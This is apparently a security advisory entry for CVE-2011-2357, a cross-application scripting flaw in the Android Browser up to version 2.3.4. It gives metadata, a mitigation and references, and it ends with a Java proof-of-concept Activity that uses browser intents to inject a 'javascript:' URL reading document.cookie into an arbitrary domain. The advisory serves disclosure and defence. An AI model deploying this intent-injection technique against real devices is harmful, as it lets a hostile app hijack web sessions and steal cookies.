 ```yaml
---
layout: vuln
credit:
    - roeeh
    - yair
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2011-07-31' 
alephid: ALEPH-2011000
cve: CVE-2011-2357
date: '2011-07-31'
title: 'Android Browser Cross-Application Scripting'
severity: high
product:
    - Android 2.3.4 and below
mitigation: 
    - Install Android 2.3.5 or 3.2. 
references:
    - src: Paper
      url: http://blog.watchfire.com/files/advisory-android-browser.pdf
    - src: 'AOSP Commit #1'
      url: http://android.git.kernel.org/?p=platform/packages/apps/Browser.git;a=commit;h=afa4ab1e4c1d645e34bd408ce04cadfd2e5dae1e
    - src: 'AOSP Commit #2'
      url: http://android.git.kernel.org/?p=platform/packages/apps/Browser.git;a=commit;h=096bae248453abe83cbb2e5a2c744bd62cdb620b
---
```

By generating a malicious Intent that targets Android's Browser, Malware may epxloit the Android's Browser URL loading process in order to inject JavaScript code into an arbitrary domain, thus breaking Android's sandboxing.

## Proof-of-Concept ##
```java
public class CasExploit extends Activity
{
    static final String mPackage = "com.android.browser";
    static final String mClass = "BrowserActivity";
    static final String mUrl = "http://target.domain/";
    static final String mJavascript = "alert(document.cookie)";
    static final int mSleep = 15000;

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.main);
        startBrowserActivity(mUrl);
        
        try {
            Thread.sleep(mSleep);
        }
        
        catch (InterruptedException e) {}
        startBrowserActivity("javascript:" + mJavascript);
    }
    private void startBrowserActivity(String url) {
        Intent res = new Intent("android.intent.action.VIEW");
        res.setComponent(new ComponentName(mPackage,mPackage+"."+mClass));
        res.setData(Uri.parse(url));
        startActivity(res);
    }
}
```
